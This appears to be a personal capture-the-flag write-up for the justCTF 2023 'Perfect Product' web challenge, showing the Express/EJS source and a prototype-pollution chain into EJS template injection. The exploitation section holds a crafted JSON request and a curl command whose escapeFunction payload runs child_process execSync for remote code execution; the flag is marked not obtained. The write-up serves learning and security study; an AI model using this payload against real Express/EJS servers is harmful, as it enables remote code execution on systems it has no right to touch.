

---
Category:
  - Web
Difficulty: Medium
Platform: justCTF 2023
Status: 3. Complete
tags:
  - ejs
  - server-side_prototype-pollution
  - Express
  - nodejs
  - RCE
  - SSTI
---

>[!quote]
>Check out my newest product gallery.

# Setup
- Server: [http://perfectproduct.web.jctf.pro/](http://perfectproduct.web.jctf.pro/)
- Source code: https://s3.cdn.justctf.team/3e552570-bd74-4f50-94f1-5c5841822681/perfect-product.zip

*Dockerfile*
```Dockerfile
FROM debian:sid

ENV NODE_ENV "production"

RUN apt update && \
    apt install -y curl && \
    curl -sL https://deb.nodesource.com/setup_18.x | bash - && \
    apt install -y nodejs

RUN groupadd -g 99999 justctf && \
    useradd --uid 99999 --gid 99999 justctf && \
    mkdir /home/justctf && \
    chown justctf /home/justctf -R && \
    chmod 755 /home/justctf -R

WORKDIR /home/justctf/

COPY src/ /home/justctf/
COPY flag.txt /flag

RUN mv readflag /readflag

RUN chown root:root /flag && chmod 700 /flag
RUN chown root:root /readflag && chmod 4755 /readflag


RUN npm install

USER justctf

EXPOSE 80
CMD [ "node", "app.js" ]
```

The flag must be read using the `/readflag` binary

# Information Gathering

## The application at-a-glance 🔍

The application allows to add custom products to the list or view and print the already registered products:




## Source code review

*app.js*
```js
const express = require('express')
const app = express()
const port = 80

const bodyParser = require('body-parser')
const morgan = require('morgan')
const path = require('path')

app.use(bodyParser.urlencoded({ extended: false }))
app.use(bodyParser.json());


app.set('view engine', 'ejs');
app.enable('view cache');

app.use(morgan('combined'));

app.use('/css', express.static(path.join(__dirname, 'node_modules/bootstrap/dist/css')));
app.use('/js', express.static(path.join(__dirname, 'node_modules/bootstrap/dist/js')));
app.use('/js', express.static(path.join(__dirname, 'node_modules/jquery/dist')));
app.use('/img', express.static(path.join(__dirname, 'static/img')));

const products = [{
  name: '1kg of Apples',
  description: 'These juicy, crisp, and delightful apples are handpicked and carefully selected to ensure only the best quality fruits make it to your table. Each apple is bursting with a sweet and refreshing taste that is sure to satisfy your taste buds.',
  price: 'PLN4,99',
  tax: '7%',
  country: 'Poland',
  image: '/img/apple.jpg'
},
  ...
}];

app.get('/', (req, res) => {
  return res.render('index', {products});
});

app.post('/', (req, res) => {
  const params = req.body;
  if (typeof params.name !== 'string' ||
      typeof params.description !== 'string' ||
      typeof params.price !== 'string' ||
      typeof params.tax !== 'string' ||
      typeof params.country !== 'string' ||
      typeof params.image !== 'string') {
    res.send('Bad request.');
    return;
  }
  products.push({name: params.name, description: params.description, price: params.price, tax: params.tax, country: params.country, image: params.image});
  return res.render('index', {products});
});

app.all('/product', (req, res) => {
  const params = req.query || {};
  Object.assign(params, req.body || {});

  let name = params.name 
  let strings = params.v;

  // Patched.
  console.log("\n\n\n\n");
  console.log(params);
  console.log(params.foo);
  console.log(params.name);
  let test = "test";
  console.log(test.foo);
  console.log(test.name);

  if(!(strings instanceof Array) && !Array.isArray(strings)){
    strings = ['NaN', 'NaN', 'NaN', 'NaN', 'NaN'];
  }
  
  // make _0 to point to all strings, copy to prevent reference.
  strings.unshift(Array.from(strings));

  const data = {};
  
  for(const idx in strings){
    console.log(`_${idx}`);
    console.log(strings[idx]);
    data[`_${idx}`] = strings[idx];
  }

  if(typeof name !== 'string'){
    name = `Product: NaN`; 
  }else{
    name = `Product: ${name}`;
  }

  data['productname'] = name;

  data['print'] = !!params.print;

  console.log(data)
  console.log(data.foo)
  console.log(data.name)
  res.render('product', data);
});


app.listen(port, async () => {
  const testStr = `test4444`;
  const res = await fetch(`http://localhost:${port}/product?name=${testStr}`).then(e=>e.text());
  if(res.includes(testStr)){
    console.log(`App listening on port ${port}`);
  }else{
    throw new Error("Something went wrong while spawning the challenge");
  }
});
```

*product.ejs*
```js
<div class="modal-header border-bottom-0">
    <h1 class="modal-title fs-5"><%= productname %></h1>
    <% if(!print){ %>
    <button type="button" class="btn-close" data-bs-dismiss="modal" aria-label="Close"></button>
    <% } %>
</div>
<div class="modal-body py-0">
    <p><%- _1 %></p>
    <p>
        <strong>Price:</strong> <%= _2 %> (tax: <%= _3 %>)<br>
        <strong>Country:</strong> <%= _4 %>
    </p>
</div>
<% if(!print){ %>
<div class="modal-footer flex-column align-items-stretch w-100 gap-2 pb-3 border-top-0">
    <a id="pmPrint" class="btn btn-lg btn-secondary" href="#" role="button">Print</a>
</div>
<% } %>

<% if(print){ %>
<script>window.print();</script>
<% } %>
```


# Exploitation

The `res.render` method is called in a dangerous way [^1][^3][^6] , passing a direct object instead of the specific single parameters:

```js
res.render('product', data);
```

If we can pass an arbitrary object with specific EJS field, we can modify the internals of EJS and manipolate the engine, eventually obtaining RCE or SSTI [^2][^4][^5].

[^1]: https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce
[^2]: https://ejs.co/#docs
[^3]: https://eslam.io/posts/ejs-server-side-template-injection-rce/
[^4]: https://expressjs.com/en/api.html#res.render
[^5]: https://github.com/mde/ejs/wiki/Using-EJS-with-Express#passing-opts-with-data
[^6]: https://securitylab.github.com/advisories/GHSL-2021-021-tj-ejs/

We can also pollute `params` prototype with the following request:

```http
POST /product HTTP/1.1
Host: 127.0.0.1
Content-Length: 85
Cookie: rack.session=VvxFCu3UJnBiwLYC31tNUC9IwJvSGrveDSAblOvwwStzAXlc4sMDTSgxBHwFNlIDkSR9k1LZu%2BLeQnDn5te64tWWJJXyKm4TRxzubR2QU5rGN73KsOSRgoQsddpdIVANss9JBDWX8vQmm4DfMI4Px6ubVYRmA4xNitl%2FpEC0WfBYC45hDv7RYAkOxhXamz5vI3p6zrsA0Fkwpv8BLDkBemrrPnSB9VoKia51N0ozo8ejWz4U2qy%2FQFwLDE40rHK%2F50OqCbBLFZtc2PYTlnaoCT44nJ5M%2FIpqky%2B87V%2Fi0d25%2Bdc7PxYe7Dmaodr53%2F1IB1TBQgoQdeZBrUDPoIuNTPsfFOGwzDKEHozlxX2WsxiYRCDdF0QUSyKXBtnC4GrMZcC0ymWfAR0%2F%2FlRSXUmFLwZ56Wq3%2BCL88VKwb%2BAKPr%2BjSwUg5JGfDSxfFBxaU1xZx9BcXA%3D%3D--61WPwmXB5RpgpOQ7--goLjZjuIG4c6hwW1Gqqwzw%3D%3D
Connection: close

{"v":["asd","asdfg,99","321","gfds"],"__proto__":{"name":"polluted","foo":"bar"}}

--- Server debug log ---

> console.log(params);
{ v: [ 'desc', 'PLN4,99', '7%', 'Poland', 'sasd', '$' ] }
> console.log(params.foo);
bar
> console.log(params.name);
name
```

Because the `data` object is derived from `let strings = params.v;` (thus from user input), we can manipulate the input so that we can use the prototype pollution to overwrite the `view options` [^issue], which in turn will allow js injection in the compiled ejs templates (SSTI). With a cache reset we can then force a new compilation of the template.

[^issue]: https://github.com/mde/ejs/issues/735

```bash
curl -G 'http://4xexs7xetdsz825dx0oqig9rlxrd2u.perfectproduct.web.jctf.pro/product' --data-urlencode 'v[__proto__]=1' --data-urlencode 'v[__proto__]=1' --data-urlencode 'v[__proto__]=1' --data-urlencode 'v[__proto__]=1' --data-urlencode 'v[__proto__]=1' --data-urlencode 'v[_proto__][settings][view%20options][client]=1' --data-urlencode 'v[_proto__][settings][view%20options][escapeFunction]=1;return global.process.mainModule.constructor._load("child_process").execSync("/readflag");' --data-urlencode 'v[_proto__][cache]=' -v
```

>[!fail] Flag
>N/A